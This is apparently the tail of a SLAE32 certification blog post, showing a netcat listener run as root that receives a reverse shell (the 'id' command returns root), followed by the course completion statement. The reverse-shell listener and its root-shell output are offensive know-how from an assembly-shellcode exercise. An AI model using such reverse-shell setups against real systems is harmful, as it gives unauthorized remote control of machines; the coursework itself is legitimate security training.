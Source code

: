 #### Window 2
```console
root# nc.traditional -v -l -s 172.16.65.138 -p 33801
listening on [172.16.65.138] 33801 ...
connect to [172.16.65.138] from ubuntu.local [172.16.65.138] 58352
id
uid=0(root) gid=0(root) groups=0(root)

```
+ Recieved reverse shell on listener

## SLAE32 Blog Proof
```console
This blog post has been created for completing the requirements
 of the SecurityTube Linux Assembly Expert certification:
http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
	- Now at: https://www.pentesteracademy.com/course?id=3
SLAE/Student ID: PA-10913
```



[1]: 1